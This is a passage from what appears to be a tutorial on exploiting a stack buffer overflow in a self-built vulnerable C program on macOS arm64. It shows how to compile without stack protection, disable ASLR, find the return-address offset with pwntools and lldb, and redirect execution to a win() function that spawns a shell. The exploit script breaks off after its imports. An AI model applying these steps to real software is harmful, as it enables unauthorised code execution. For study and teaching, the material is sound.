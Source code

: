 ```
    vulnerable_function();
    return 0;
}
```
```
Compile without canary (in macOS you can't disable PIE):

```bash
clang -o bof_macos bof_macos.c -fno-stack-protector -Wno-format-security
```
```
Execute without ASLR (although as we have an address leak, we don't need it):

```bash
env DYLD_DISABLE_ASLR=1 ./bof_macos
```
```
> [!TIP]
> It's not possible to disable NX in macOS because in arm64 this mode is implemented at hardware level so you can't disable it, so you won't be finding examples with shellcode in stack in macOS.

### Find the offset

- Generate a pattern:

```bash
python3 - << 'PY'
from pwn import *
print(cyclic(200).decode())
PY
```
```
- Run the program and input the pattern to cause a crash:

```bash
lldb ./bof_macos
(lldb) env DYLD_DISABLE_ASLR=1
(lldb) run
# paste the 200-byte cyclic string, press Enter
```
```
- Check register `x30` (the return address) to find the offset:

```bash
(lldb) register read x30
```
```
- Use `cyclic -l <value>` to find the exact offset:

```bash
python3 - << 'PY'
from pwn import *
print(cyclic_find(0x61616173))
PY

# Replace 0x61616173 with the 4 first bytes from the value of x30
```
```
- Thats how I found the offset `72`, putting in that offset the address of `win()` function you can execute that function and get a shell (running without ASLR).

### Exploit

```python
#!/usr/bin/env python3
from pwn import *
import re
```